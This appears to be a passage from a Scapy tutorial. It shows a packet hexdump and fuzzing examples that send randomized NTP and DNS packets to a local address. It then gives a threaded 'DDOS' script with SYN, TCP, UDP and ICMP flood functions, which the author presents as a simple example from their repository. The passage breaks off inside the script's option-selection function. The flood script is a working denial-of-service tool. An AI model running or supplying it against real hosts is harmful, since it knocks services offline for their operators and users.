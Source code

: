 Running this snippet gives:
```sh
$ sudo python example_hexdump.py
WARNING: No route found for IPv6 destination :: (no default route?)
0000   00 90 A9 A3 F1 46 A4 17  31 E9 B3 27 08 00 45 00   .....F..1..'..E.
0010   00 40 00 01 00 00 40 06  8D 0F C0 A8 01 72 4A 7D   .@....@......rJ}
0020   E1 10 00 14 00 50 00 00  00 00 00 00 00 00 50 02   .....P........P.
0030   20 00 FA 15 00 00 47 45  54 20 2F 69 6E 64 65 78    .....GET /index
0040   2E 68 74 6D 6C 20 48 54  54 50 2F 31 2E 31         .html HTTP/1.1
```



###  Fuzzing

Scapy's [fuzz()](http://www.secdev.org/projects/scapy/doc/usage.html#fuzzing) method allows one to craft fuzzing templates (by changing default values by random ones) and send them in a loop.

For example, we can have a standard IP layer with the UDP and NTP layers being fuzzed (but with the correct checksums). Below, the UDP destination port is overloaded by NTP and the NTP version is forced to be 4:

```python
>>> send(IP(dst="192.168.1.114")/fuzz(UDP()/NTP(version=4)), loop=1)
................^C
Sent 16 packets.
```

Here is a DNS fuzzer:

```python
>>> send(IP(dst='192.168.1.114')/UDP()/fuzz(DNS()), inter=1,loop=1)
```

We can use fuzzers for something more interesting. For example to craft a [DDOS] script. This is a very simple example I have in my repository:

```python
import threading
import socket
from scapy.all import *

def synFlood(target, port):
    ip = fuzz(IP(dst=target))
    syn = fuzz(TCP(dport=port, flags='S'))
    send(ip/syn, verbose=0)

def tcpFlood(target, port):
    ip = fuzz(IP(dst=target))
    tcp = fuzz(TCP(dport=port))
    send(ip/tcp, verbose=0)

def udpFlood(target, port):
    ip = fuzz(IP(dst=target))
    udp = fuzz(UDP(dport=port))
    send(ip/udp, verbose=0)

def icmpFlood(target):
    ip = fuzz(IP(dst=target))
    icmp = fuzz(ICMP())
    send(ip/icmp, verbose=0)

def option(count, op, ip, port):
    if op == '1':
        for i in range(count):
            threading.Thread(target=synFlood(ip, port)).start()

    elif op == '2':
        for i in range(count):
```